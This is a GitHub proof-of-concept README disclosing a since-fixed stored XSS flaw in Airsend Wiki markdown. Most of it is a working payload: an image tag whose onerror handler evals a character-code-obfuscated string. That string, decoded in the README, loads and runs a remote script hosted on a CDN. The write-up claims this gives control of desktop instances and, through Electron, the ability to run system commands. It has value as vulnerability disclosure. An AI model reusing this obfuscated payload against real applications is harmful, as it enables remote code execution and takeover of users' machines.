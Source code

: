 >  :warning: THIS SECURITY BREACH WAS **REPORTED** AND **FIXED**, HENCE THE PUBLIC REPOSITORY

# Airsend Wiki Markdown XSS POC


For testing purposes I encoded the url to this script hosted here on a image tag and inserted in a index in Airsend Wiki markdown.

## Markdown content

```
## SECURE CONTENT - TRUST ME
<img src=x onerror=eval(String.fromCharCode(99,111,110,115,116,32,106,115,32,61,32,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,32,106,115,46,116,121,112,101,32,61,32,39,116,101,120,116,47,106,97,118,97,115,99,114,105,112,116,39,59,32,106,115,46,115,114,99,32,61,32,39,104,116,116,112,115,58,47,47,99,100,110,46,115,116,97,116,105,99,97,108,108,121,46,105,111,47,103,104,47,109,105,99,104,101,108,100,112,99,97,114,108,111,115,47,97,105,114,115,101,110,100,45,106,115,45,105,110,106,101,99,116,105,111,110,45,112,111,99,47,53,48,98,50,57,99,56,57,98,50,56,55,55,50,53,97,98,53,52,49,55,51,50,101,101,98,54,98,54,53,51,98,51,99,54,50,54,48,50,102,47,105,110,100,101,120,46,106,115,39,59,32,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,106,115,41,59))>
```



## Decoded onerror content
```
// Using a cdn to provide static js from github with the correct MIME type
const js = document.createElement('script'); js.type = 'text/javascript'; js.src = 'https://cdn.statically.io/gh/micheldpcarlos/airsend-js-injection-poc/50b29c89b287725ab541732eeb6b653b3c62602f/index.js'; document.body.appendChild(js);
```


# Result
The script is loaded and the attacker gain control over any instance running on desktop, if on Electron app we gain control over node apis and gain system control, even runnig a terminal command.

Tests using ios mobile didn't show any issue.

<img width="1912" alt="image" src="https://user-images.githubusercontent.com/29731180/155525895-6c7b57c7-7697-4a5a-9819-b7bf8f8e27db.png">






